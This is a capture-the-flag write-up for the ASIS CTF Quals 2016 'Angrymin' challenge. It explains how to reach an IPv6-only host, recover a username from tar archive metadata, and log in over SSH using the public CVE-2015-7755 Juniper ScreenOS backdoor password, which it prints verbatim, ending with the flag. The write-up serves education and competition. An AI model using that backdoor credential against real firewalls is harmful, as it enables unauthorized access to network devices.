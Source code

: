 Angrymin
========

* **CTF:** [ASIS CTF Quals 2016](https://asis-ctf.ir/)
* **Category:** Misc
* **Points:** 52

>> Today, unfortunately I must inform you that I am resigning from my position at you company effective immediately. As each day passed by, it became more clear that you do not care about your customers nor your employees. While I may not be able to change your ways, at least I can stop helping you with my expertise.
>> I have uploaded all the backups, documents and manuals on [here](angrymin.tar.xz). If you find some other sys-admin stupid enough to work for you, those files are more than enough to help him get started. Meanwhile, I am keeping the **username** and **password** for the [firewall](http://juniper.asis-ctf.ir), just to annoy you.
>>
>> Burn in hell,
>>
>> yours truly
>>
>> sys-admin
>
> Would you help this poor boss to find specific username and password?
>
> 4 ≠ 6

We wouldn't expect firewall to expose HTTP server, would we? Indeed, when we click "firewall" link, nothing happens. Some people received errors like `ERR_NAME_NOT_RESOLVED`. Also, for some it was impossible to ping this host:

```
$ ping juniper.asis-ctf.ir
ping: unknown host juniper.asis-ctf.ir
```

This was a bit tricky task and there were a lot questions whether it is broken at CTF IRC channel. It wasn't, but... why some people were unable to access it?

Here's why:

```
$ host juniper.asis-ctf.ir
juniper.asis-ctf.ir has IPv6 address 2406:d501::613c:a652
```

That is, `juniper.asis-ctf.ir` is an IPv6-only host. "4 ≠ 6" in task description was a hint (which was added shortly after CTF began). It is impossible to access IPv6-only host using IPv4 connection... directly. We're not doomed.

We won't describe the details, but there are at least few methods to get IPv6 connection on IPv4-only host (you need some basic networking knowledge):

* **[Teredo](https://en.wikipedia.org/wiki/Teredo_tunneling)** - this mechanism is built-in in Microsoft Windows operating systems and preconfigured to use `teredo.ipv6.microsoft.com` public Teredo gateway. However, to provide optimal user experience, it is configured not to resolve AAAA DNS records (IPv6 address pointers) - this would slower connections with dual-stack (IPv4 and IPv6) hosts, as client may prefer to use IPv6 address (unaware that this is non-native connection involving gateway far, far away in the Internet). Also, Teredo is dormant until we try to connect to some IPv6 host. Pinging address we discovered on our own a few times should be enough to wake it (of course if configured Teredo server is responding, which is not always the case; sometimes there are also problems with NAT traversal).
* **[6to4 anycast](https://en.wikipedia.org/wiki/6to4)** - another easy way to access IPv6 hosts. Some helpful Internet service providers announce their publicly available 6to4 relay under well-known adress of 192.88.99.1 (see what [anycast](https://en.wikipedia.org/wiki/Anycast) is). You only have to configure appropriate route. This method requires you to have public IPv4 address (and router capable of protocol 41 redirection, if you don't connect your PC to ISP network directly).
* **6to4 tunnel** - there are numerous tunnel providers, most notably [Hurricane Electric](https://tunnelbroker.net/) and [SixXS](https://www.sixxs.net/). They require additional configuration (compared to 6to4 anycast), but they allow you to create whole new IPv6 subnet only for yourself (instead of having single IPv6 address). SixXS is also able to work from behind NAT gateways or routers without protocol 41 support (AYIYA - Anything In Anything)!
* **rent a virtual machine** - you can for example use "Droplet" at [DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-enable-ipv6-for-digitalocean-droplets); not all cloud providers support IPv6, so make sure to check features they offer first

Okay. Now we have IPv6 connectivity to `juniper.asis-ctf.ir`. Try pinging it first; note that under Linux operating systems you have to use different command than for IPv4 hosts!

```
$ ping6 juniper.asis-ctf.ir -c4
PING juniper.asis-ctf.ir(2406:d501::613c:a652) 56 data bytes
64 bytes from 2406:d501::613c:a652: icmp_seq=1 ttl=44 time=331 ms
64 bytes from 2406:d501::613c:a652: icmp_seq=2 ttl=44 time=331 ms
64 bytes from 2406:d501::613c:a652: icmp_seq=3 ttl=44 time=331 ms
64 bytes from 2406:d501::613c:a652: icmp_seq=4 ttl=44 time=331 ms

--- juniper.asis-ctf.ir ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 331.792/331.889/331.964/0.709 ms
```

Gotcha. There is still no HTTP server (we get timeouts), but maybe we should try our luck with SSH? (raccoons was our local username; by default SSH tries to use the same username at remote host.)

```
$ ssh juniper.asis-ctf.ir
The authenticity of host 'juniper.asis-ctf.ir (2406:d501::613c:a652)' can't be established.
RSA key fingerprint is 77:03:0f:db:66:9e:22:f7:d1:91:36:66:d6:0d:5e:9a.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'juniper.asis-ctf.ir,2406:d501::613c:a652' (RSA) to the list of known hosts.
raccoons@juniper.asis-ctf.ir's password:
```

Okay. There is an SSH server waiting for us to login. We know that angry admin left us with no username and password, but we have some backups...

```
$ ls -alh
total 1.6M
drwxr-xr-x 2 raccoons raccoons 4.0K May  6 13:37 .
drwxr-xr-x 9 raccoons raccoons 4.0K May  9 20:57 ..
-rwxr-xr-x 1 raccoons raccoons 647K May  6 13:37 630_upgrade.pdf
-rwxr-xr-x 1 raccoons raccoons  62K May  6 13:37 Firewall-Juniper.jpg
-rwxr-xr-x 1 raccoons raccoons  725 May  6 13:37 Links.txt
-rwxr-xr-x 1 raccoons raccoons  20K May  6 13:37 juniper-srx100.jpg
-rwxr-xr-x 1 raccoons raccoons  67K May  6 13:37 netscreen-640x364.jpg
-rwxr-xr-x 1 raccoons raccoons 563K May  6 13:37 rn_540r9.pdf
-rwxr-xr-x 1 raccoons raccoons  22K May  6 13:37 srx100.jpg
-rwxr-xr-x 1 raccoons raccoons 186K May  6 13:37 upgrade_guide.pdf
```

ARGH! There are no backups! These are only some user guides and images. Maybe there is some stegano involved? Erm, no. These are untouched files downloaded straight from the Internet (we've managed to find all of them - except Links.txt - and compare checksums).

But at least we know target device - Juniper SRX100 firewall with ScreenOS. Maybe default passwords are working? Unfortunately, no.

If you are lucky, you've heard something about Juniper at the end of 2015. If not... you would probably start searching for known vulnerabilities now, right?

There is one really interesting critical vulnerability - [CVE-2015-7755: Juniper ScreenOS Authentication Backdoor](https://community.rapid7.com/community/infosec/blog/2015/12/20/cve-2015-7755-juniper-screenos-authentication-backdoor). Speaking briefly, all you need to access ScreenOS device with backdoored firmware, is any valid username and `<<< %s(un='%s') = %u` password (easy to mistake it for some debugging format string in source code, huh?).

We still need a valid username. It's not `netscreen`, it's not `admin`, neither `root` or `sys-admin`. Maybe there something in the `.tar` archive itself? File modification dates seem odd. It's not any of the filenames, there are no comments in archive...

But you should now one little thing, evil sys-admin. By default `tar` preserves file owner and group usernames in plaintext format!

```
$ tar --list -tf juniper.tar.xz
drwxr-xr-x craigswright/craigswright 0 2016-05-06 13:37 juniper/
-rwxr-xr-x craigswright/craigswright 575639 2016-05-06 13:37 juniper/rn_540r9.pdf
-rwxr-xr-x craigswright/craigswright  62711 2016-05-06 13:37 juniper/Firewall-Juniper.jpg
-rwxr-xr-x craigswright/craigswright  19658 2016-05-06 13:37 juniper/juniper-srx100.jpg
-rwxr-xr-x craigswright/craigswright 190373 2016-05-06 13:37 juniper/upgrade_guide.pdf
-rwxr-xr-x craigswright/craigswright    725 2016-05-06 13:37 juniper/Links.txt
-rwxr-xr-x craigswright/craigswright  68122 2016-05-06 13:37 juniper/netscreen-640x364.jpg
-rwxr-xr-x craigswright/craigswright  21671 2016-05-06 13:37 juniper/srx100.jpg
-rwxr-xr-x craigswright/craigswright 662466 2016-05-06 13:37 juniper/630_upgrade.pdf
```

Is `craigswright` our sys-admin from hell?

```
$ ssh juniper.asis-ctf.ir -l craigswright
craigswright@juniper.asis-ctf.ir's password:
ASIS{wh0_1n_h15_r16h7_m1nd_w0uld_b3l13v3_cr416_wr16h7_15_54705h1_n4k4m070}
Connection to juniper.asis-ctf.ir closed.
```

Yes, he is. But we're not sure whether is he a creator of Bitcoin. :)
